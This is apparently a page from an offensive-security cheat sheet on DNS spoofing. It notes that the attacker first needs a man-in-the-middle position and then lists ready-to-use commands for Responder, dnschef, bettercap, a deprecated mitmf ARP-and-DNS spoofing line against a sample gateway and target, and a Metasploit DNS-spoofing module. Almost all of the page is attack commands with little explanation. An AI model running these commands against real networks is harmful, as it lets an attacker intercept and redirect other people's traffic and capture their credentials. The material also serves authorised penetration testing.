 # 🟨 DNS Spoofing



DNS is not multicast or broadcast like LLMNR, NBT-NS or mDNS. In order to answer DNS requests, attacker first need to receive them. For instance, this can be achieved with ARP spoofing or DHCPv6 spoofing. DNS spoofing is basically setting up a DNS server and answering DNS queries obtained through man-in-the-middle technique.

### <mark style="color:orange;">Responder</mark>

```
responder --interface "eth0"
responder -I "eth0"
```

### <mark style="color:orange;">dnschef</mark>

```
dnschef --fakeip 'Pentest_IP_Address' --interface 'Pentest_IP_Address' --port 53 --logfile dnschef.log
```

### <mark style="color:orange;">bettercap</mark>

```
set dns.spoof.domains $DOMAIN_FQDN
set dns.spoof.all true
dns.spoof on
```

### <mark style="color:orange;">mitmf (deprecated)</mark>

```
mitmf --arp --spoof --gateway 10.0.0.1 --target 10.0.0.56 -i wlan0 --dns
```

### <mark style="color:orange;">metasploit</mark>

```
use post/linux/manage/dns_spoofing
```
